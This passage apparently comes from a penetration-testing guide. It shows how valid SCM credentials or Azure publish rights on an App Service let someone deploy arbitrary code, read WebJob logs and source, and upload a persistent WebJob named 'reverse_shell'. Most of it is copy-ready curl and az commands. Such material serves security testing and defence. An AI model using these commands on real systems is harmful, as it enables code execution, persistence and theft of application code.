 ### Publish code using SCM credentials

Just having valid SCM credentials it's possible to **publish code** to the App service. This can be done using the following command.

For this python example you can download the repo from https://github.com/Azure-Samples/msdocs-python-flask-webapp-quickstart, do any **changes** you wish and then **zip it running: `zip -r app.zip .`**.

Then you can **publish the code** in a web app with the following command:

```bash
curl -X POST "<SMC-URL>/api/publish?type=zip" --data-binary "@./app.zip" -u '<username>:<password>' -H "Content-Type: application/octet-stream"
```

### Webjobs: Microsoft.Web/sites/publish/Action | SCM credentials

The mentioned Azure permission allows to perform several interesting actions that can also be performed with the SCM credentials:

- Read **Webjobs** logs:

```bash
# Using Azure credentials
az rest --method GET --url "<SCM-URL>/vfs/data/jobs/<continuous | triggered>/rev5/job_log.txt"  --resource "https://management.azure.com/"
az rest --method GET --url "https://lol-b5fyaeceh4e9dce0.scm.canadacentral-01.azurewebsites.net/vfs/data/jobs/continuous/rev5/job_log.txt"  --resource "https://management.azure.com/"

# Using SCM username and password:
curl "<SCM-URL>/vfs/data/jobs/continuous/job_name/job_log.txt" \
  --user '<username>:<password>' -v
```

- Read **Webjobs** source code:

```bash
# Using SCM username and password:
# Find all the webjobs inside:
curl "<SCM-URL>/wwwroot/App_Data/jobs/" \
  --user '<username>:<password>'

# e.g.
curl "https://nodewebapp-agamcvhgg3gkd3hs.scm.canadacentral-01.azurewebsites.net/wwwroot/App_Data/jobs/continuous/job_name/rev.js" \
  --user '<username>:<password>'
```

- Create **continuous Webjob**:

```bash
# Using Azure permissions
az rest \
  --method put \
  --uri "https://windowsapptesting-ckbrg3f0hyc8fkgp.scm.canadacentral-01.azurewebsites.net/api/Continuouswebjobs/reverse_shell" \
  --headers '{"Content-Disposition": "attachment; filename=\"rev.js\""}' \
  --body "@/Users/username/Downloads/rev.js" \
  --resource "https://management.azure.com/"

# Using SCM credentials
curl -X PUT \
  "<SCM-URL>/api/Continuouswebjobs/reverse_shell2" \
  -H 'Content-Disposition: attachment; filename=rev.js' \
  --data-binary "@/Users/carlospolop/Downloads/rev.js" \
  --user '<username>:<password>'
```
